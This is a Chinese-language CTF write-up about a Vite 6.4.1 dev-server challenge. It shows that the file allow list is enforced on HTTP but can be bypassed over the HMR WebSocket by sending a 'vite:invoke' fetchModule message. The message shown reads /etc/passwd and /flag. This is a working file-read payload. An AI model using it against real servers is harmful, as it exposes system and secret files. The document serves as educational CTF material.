





## 题面

给了附件，信息量挺大的。

先看 `robots.txt`，直接把路指出来了：

```text
User-agent: *
Disallow: /@fs/
```

`vite.config.js` 里写了白名单和黑名单：

```js
import { defineConfig } from 'vite'
import path from 'node:path'

const root = process.cwd()

export default defineConfig({
  server: {
    host: '0.0.0.0',
    port: 5173,
    strictPort: true,

    allowedHosts: true,

    fs: {
      strict: true,
      allow: [
        root,
        path.join(root, 'src'),
        path.join(root, 'public')
      ],
      deny: ['.env', '.env.*', '*.{crt,pem}', '**/.git/**']
    }
  }
})
```

`docker-entrypoint.sh` 把 flag 写到了 `/flag`：

```sh
#!/bin/sh
set -eu

echo $FLAG > /flag
unset FLAG

chown ctf:ctf /flag
chmod 777 /flag

exec su-exec ctf npm run start
```

所以目标就是读 `/flag`，跟 `@fs` 的白名单硬碰。

## 先试 HTTP

直接访问 `/@fs/flag`：



意料之中被拦了，allow list 只有 `/app`、`/app/src`、`/app/public`。

## 转机在 WebSocket

回头翻了翻主界面，它自己就把 WebSocket 协议甩脸上了：



Vite 6.4.1，查了一手 CVE，对上了 CVE-2026-39363（GHSA-p9ff-h696-f583）：



漏洞说得很直白：HTTP 路径读文件被 allow list 挡住，但连上 HMR 的 WebSocket、不带 Origin，发一个 `vite:invoke` 调 `fetchModule`，文件内容会作为 JS module 返回。

## 打通

Burp 的 WebSocket 标签页连上去，直接发：

```json
{
  "type": "custom",
  "event": "vite:invoke",
  "data": {
    "name": "fetchModule",
    "id": "send:test1",
    "data": {
      "file": "/etc/passwd?raw"
    }
  }
}
```

回包里 `code` 字段就是文件内容：



换成 `/flag?raw`：



```text
flag{an@1yZ1ng_p3rFeCt-6OOK-c1U6-3xper!3NC315e8}
```

## 总结

Vite 上需要两个通道，是因为 HTTP 做不到「服务器主动通知浏览器」，所以另开了一个 WebSocket 通道做 HMR 推送。

这题只在 HTTP 上做了限制，WS 上畅通无阻，白名单等于单边生效。
